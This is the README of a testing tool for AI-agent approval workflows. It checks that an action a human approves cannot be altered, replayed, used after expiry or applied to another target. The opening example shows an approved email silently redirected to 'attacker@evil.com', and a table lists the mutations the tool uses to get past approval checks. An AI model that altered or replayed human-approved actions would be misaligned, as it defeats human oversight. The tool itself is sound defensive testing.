

# Agent Approval Testkit

**pytest for human-in-the-loop agent approvals.**
If a human approved Action A, execution must not silently become Action B.

---

A human clicks **Approve** on:

```
send_email(to="finance@company.com", subject="Q3 report")
```

…and the agent executes:

```
send_email(to="attacker@evil.com", subject="Q3 report")
```

Your approval UI looked fine. Your verifier said "approval id is valid". Nobody checked that the
*action* still matched. Agent Approval Testkit catches this in CI:

```
$ approval-test run examples/vulnerable_payment_agent

Approval Integrity Report
 Status  Invariant               Accepted mutations
 PASS    actor binding
 PASS    tool binding
 FAIL    argument binding        args.amount -> 1000
                                 args.currency -> 'USD-mutated'
                                 ...
 PASS    target binding
 PASS    expiry enforcement
 FAIL    replay protection       same approval executed twice
 PASS    policy version binding
Failures: 2 / 7
Exit code: 1
```


## Install

```bash
pip install agent-approval-testkit
```

## Use it in 3 steps

**1. Expose your approval verifier through a two-method adapter** (no base class, no framework lock-in):

```python
# approval_adapter.py
from approval_testkit import Approval

class MyAdapter:
    def create_approval(self, request, *, now) -> Approval:
        ...  # call your app's "human approved this" path, return the Approval

    def verify(self, attempt, *, now, policy_version) -> bool:
        ...  # call your app's "may this execute?" check; returning False or raising = denied
```

**2. Describe one real action in `approval-test.toml`:**

```toml
adapter = "approval_adapter:MyAdapter"

[request]
actor = "user:alice"
tool = "send_payment"
target = "acct_vendor_123"
policy_version = "2026-09"

[request.args]
amount = 100
currency = "USD"
```

(or put the same keys under `[tool.approval-test]` in `pyproject.toml`)

**3. Run it:**

```bash
approval-test run .                       # terminal table, exit 1 on any failure
approval-test run . --format markdown     # Markdown report
approval-test run . --format json -o r.json
approval-test list-mutations
```

Exit codes: `0` all invariants hold, `1` an invariant failed, `2` config/adapter error.

## What it checks

| Invariant | Mutation | The verifier must reject… |
|---|---|---|
| actor binding | `actor` | a different user/session presenting the approval |
| tool binding | `tool` | the approval being used for another tool |
| argument binding | `arguments` | any argument changed, dropped, or injected |
| target binding | `target` | a different resource / recipient / destination |
| expiry enforcement | `expiry` | execution after the approval expired |
| replay protection | `replay` | a second execution of an already-used approval |
| policy version binding | `policy` | execution after the policy version changed |

Before any mutation runs, the testkit checks the **unmodified** approved action is accepted — so a
verifier that rejects everything is reported as an error, not a pass.

## How it works



Each probe gets a fresh adapter and a fresh approval, so one probe's state never masks another.

## GitHub Actions

```yaml
- uses: actions/checkout@v4
- uses: <owner>/agent-approval-testkit@v0
  with:
    path: .
```

The Markdown report is added to the job summary; the step fails if any invariant fails.

## Examples

- [`examples/vulnerable_payment_agent`](examples/vulnerable_payment_agent) — binds actor/tool/target, forgets arguments and single-use. 2 failures.
- [`examples/secure_payment_agent`](examples/secure_payment_agent) — hashes the canonical action, enforces expiry, policy version, single use. 7/7 pass.

## Scope

This tests **approval integrity** — that an approved action can't be changed, replayed, expired, or
reused. It is **not** a complete agent security scanner, prompt-injection detector, or policy engine.

## Roadmap

- **v0.2** — OpenAI Agents SDK adapter, resumable approval state, delegated/nested actors
- **v0.3** — MCP adapter, normalization hooks (paths, URLs, recipients), side-effect simulators, SARIF

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md). New mutations are one function plus a registry line.

License: Apache-2.0
